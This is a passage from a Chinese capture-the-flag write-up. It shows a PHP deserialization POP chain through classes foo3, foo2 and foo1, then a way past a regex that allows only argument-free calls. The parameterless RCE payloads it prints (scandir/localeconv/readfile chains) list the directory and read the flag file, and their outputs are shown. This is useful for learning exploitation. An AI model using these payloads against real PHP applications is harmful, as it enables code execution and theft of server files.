 ```
}
class foo3{
    public $var;
    function __construct(){
        $this->var="index.php";
    }
    function __destruct(){
        if(file_exists($this->var)){
            echo "<br>".$this->var."exist</br>";
        }
        echo "<br>desctuct foo3</br>";
    }
    function execute(){
        print("hi");
    }
}
```

大概是这样：

```
$pop = new foo3;
$pop->var = new foo2;//触发__toString()，调用execute()
$pop->var->obj = new foo1;//调用foo1的execute()
```

成功调用foo1的execute()函数之后就需要我们绕正则，这里是无参数RCE， `if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $this->var))` 限制了参数；

查了一下?R，PHP manual中这样说：

- ”首先，它匹配一个左括号。 然后它匹配任意数量的非括号字符序列或一个模式自身的递归匹配(比如， 一个正确的括号子串)，最终，匹配一个右括号。“

大概是这个样子 `XXXX(XXXX(XXXX()))`

```
\W等价于[^A-Za-z0-9_]
+括号匹配\( ...... \)
+括号中间是XXXX(XXXX(XXXX()))
```

意思是我们可以 `a();` `a(a());` 但是不能 `a('1');` 。

需要我们进行不带参数的RCE，这里[王叹之师傅](https://www.cnblogs.com/wangtanzhi/p/12311239.html)讲的很好，基本就是那几个函数换着用，这里直接上playload；

把foo1的var属性改为：

```
print_r(array_reverse(scandir(current(localeconv()))));
返回值：
Array ( [0] => youCanGet1tmaybe [1] => index.php [2] => .. [3] => . )


print_r(scandir(next(scandir(current(localeconv())))));
返回值：
Array ( [0] => . [1] => .. [2] => html ) 
发现不是在上级目录，应该是读取youCanGet1tmaybe文件


print_r(readfile(end(scandir(current(localeconv())))));
返回值：
minil{af22c569-6114-44c6-8c8c-4b561cf7ac7b}
```
